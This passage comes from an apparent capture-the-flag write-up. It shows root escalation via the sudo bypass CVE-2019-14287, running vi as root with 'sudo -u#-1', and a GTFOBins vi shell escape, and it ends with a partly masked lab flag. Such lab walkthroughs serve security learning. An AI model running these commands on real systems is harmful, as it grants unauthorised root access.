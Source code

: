 Searching for vulnerabilities we can find [`CVE-2019-14287`](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14287) which allows anyone to bypass the restrictions to run sudo.

<br>

## Root

Running this command `sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt` opens the `vi` editor as root.

Then heading over to GTFObins gives this command to spawn the shell as root..

```
:set shell=/bin/sh
:shell
```

root flag

```
THM{8d6f163a87a1c80de2**********************}
```